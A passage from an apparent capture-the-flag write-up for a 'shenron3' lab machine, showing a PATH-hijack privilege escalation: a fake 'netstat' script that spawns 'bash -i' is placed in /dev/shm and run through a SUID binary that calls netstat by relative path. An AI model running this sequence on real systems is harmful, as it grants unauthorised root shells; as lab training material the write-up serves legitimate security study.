 [<img src="../images/shenron3/ghidra.png"
  style="width: 800px;"/>](../images/shenron3/ghidra.png)

Looks like it is running `netstat`.

Well we can exploit this, by [Hijacking Relative Paths in SUID Programs](https://medium.com/r3d-buck3t/hijacking-relative-paths-in-suid-programs-fed804694e6e)

```bash
cd /dev/shm
echo 'bash -i #' > netstat
chmod +x netstat
export PATH=/dev/shm/:$PATH
cd /home/shenron
./network
```

[<img src="../images/shenron3/privesc.png"
  style="width: 800px;"/>](../images/shenron3/privesc.png)
